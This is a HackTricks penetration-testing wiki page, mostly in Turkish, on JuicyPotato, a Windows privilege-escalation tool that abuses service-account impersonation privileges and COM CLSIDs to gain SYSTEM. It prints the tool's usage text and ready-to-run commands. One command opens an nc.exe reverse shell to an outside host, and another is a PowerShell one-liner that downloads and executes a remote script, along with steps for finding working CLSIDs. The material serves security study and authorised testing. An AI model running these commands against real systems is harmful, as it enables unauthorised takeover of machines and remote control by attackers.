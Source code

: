 # JuicyPotato

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato,** Windows Server 2019 ve Windows 10 build 1809 ve sonrasında **çalışmaz.** Ancak, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) ile **aynı ayrıcalıkları kullanarak `NT AUTHORITY\SYSTEM`** düzeyinde erişim elde edebilirsiniz. _**Kontrol Et:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (altın ayrıcalıkları kötüye kullanma) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_**RottenPotatoNG**'nin şekerli bir versiyonu, biraz meyve suyu ile, yani **Windows Servis Hesaplarından NT AUTHORITY\SYSTEM**'e başka bir Yerel Ayrıcalık Yükseltme aracı_

#### Juicypotato'yu [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts) adresinden indirebilirsiniz.

### Özet <a href="#summary" id="summary"></a>

[**juicy-potato Readme'den**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) ve onun [varyantları](https://github.com/decoder-it/lonelypotato), [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servisine](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) dayanan ayrıcalık yükseltme zincirini kullanır ve `127.0.0.1:6666` üzerinde MiTM dinleyicisi vardır ve `SeImpersonate` veya `SeAssignPrimaryToken` ayrıcalıklarına sahip olduğunuzda çalışır. Bir Windows build incelemesi sırasında, `BITS`'in kasıtlı olarak devre dışı bırakıldığı ve `6666` portunun alındığı bir kurulum bulduk.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)'yi silahlandırmaya karar verdik: **Juicy Potato'ya merhaba deyin**.

> Teori için, [Rotten Potato - Servis Hesaplarından SYSTEM'e Ayrıcalık Yükseltme](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) sayfasını inceleyin ve bağlantılar ve referanslar zincirini takip edin.

`BITS` dışında, kötüye kullanabileceğimiz birkaç COM sunucusu olduğunu keşfettik. Bunların sadece:

1. mevcut kullanıcı tarafından örneklendirilebilir olması, genellikle taklit ayrıcalıklarına sahip bir "servis kullanıcısı"
2. `IMarshal` arayüzünü uygulaması
3. yükseltilmiş bir kullanıcı (SYSTEM, Administrator, …) olarak çalışması gerekir.

Biraz test yaptıktan sonra, birkaç Windows sürümünde [ilginç CLSID'lerin](http://ohpe.it/juicy-potato/CLSID/) kapsamlı bir listesini elde ettik ve test ettik.

### Juicy detaylar <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato, size şunları sağlar:

* **Hedef CLSID** _istediğiniz herhangi bir CLSID'yi seçin._ [_Burada_](http://ohpe.it/juicy-potato/CLSID/) _işletim sistemine göre düzenlenmiş listeyi bulabilirsiniz._
* **COM Dinleme portu** _tercih ettiğiniz COM dinleme portunu tanımlayın (hardcoded 6666 yerine)_
* **COM Dinleme IP adresi** _sunucuyu herhangi bir IP'ye bağlayın_
* **İşlem oluşturma modu** _taklit edilen kullanıcının ayrıcalıklarına bağlı olarak şunlardan birini seçebilirsiniz:_
* `CreateProcessWithToken` (gerekli `SeImpersonate`)
* `CreateProcessAsUser` (gerekli `SeAssignPrimaryToken`)
* `her ikisi`
* **Başlatılacak işlem** _sömürü başarılı olursa bir yürütülebilir dosya veya betik başlatın_
* **İşlem Argümanı** _başlatılan işlem argümanlarını özelleştirin_
* **RPC Sunucu adresi** _gizli bir yaklaşım için harici bir RPC sunucusuna kimlik doğrulaması yapabilirsiniz_
* **RPC Sunucu portu** _harici bir sunucuya kimlik doğrulaması yapmak istiyorsanız ve güvenlik duvarı `135` portunu engelliyorsa…_
* **TEST modu** _temelde test amaçlıdır, yani CLSID'leri test etmek için. DCOM oluşturur ve token kullanıcısını yazdırır. _[_test için buraya bakın_](http://ohpe.it/juicy-potato/Test/)

### Kullanım <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Eğer kullanıcının `SeImpersonate` veya `SeAssignPrimaryToken` ayrıcalıkları varsa, o zaman **SYSTEM**'sınız.

Bu COM Sunucularının kötüye kullanımını önlemek neredeyse imkansızdır. Bu nesnelerin izinlerini `DCOMCNFG` aracılığıyla değiştirmeyi düşünebilirsiniz ama iyi şanslar, bu zorlayıcı olacak.

Gerçek çözüm, `* SERVICE` hesapları altında çalışan hassas hesapları ve uygulamaları korumaktır. `DCOM`'u durdurmak kesinlikle bu istismarı engelleyecektir ancak temel işletim sistemi üzerinde ciddi bir etki yaratabilir.

From: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Yeni bir CMD başlatın (eğer RDP erişiminiz varsa)

![](<../../.gitbook/assets/image (300).png>)

## CLSID Problemleri

Çoğu zaman, JuicyPotato'nun kullandığı varsayılan CLSID **çalışmaz** ve exploit başarısız olur. Genellikle, **çalışan bir CLSID** bulmak için birden fazla deneme gerekir. Belirli bir işletim sistemi için denemek üzere CLSID'lerin bir listesini almak için bu sayfayı ziyaret etmelisiniz:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSID'leri Kontrol Etme**

Öncelikle, juicypotato.exe dışında bazı çalıştırılabilir dosyalara ihtiyacınız olacak.

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) dosyasını indirin ve PS oturumunuza yükleyin, ardından [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) dosyasını indirin ve çalıştırın. Bu script, test edilecek olası CLSID'lerin bir listesini oluşturacaktır.

Sonra [test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) dosyasını indirin (CLSID listesi ve juicypotato çalıştırılabilir dosyası için yolu değiştirin) ve çalıştırın. Her CLSID'yi denemeye başlayacaktır ve **port numarası değiştiğinde, bu CLSID'nin çalıştığı anlamına gelecektir**.

**-c parametresini kullanarak** çalışan CLSID'leri **kontrol edin**

## Referanslar

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
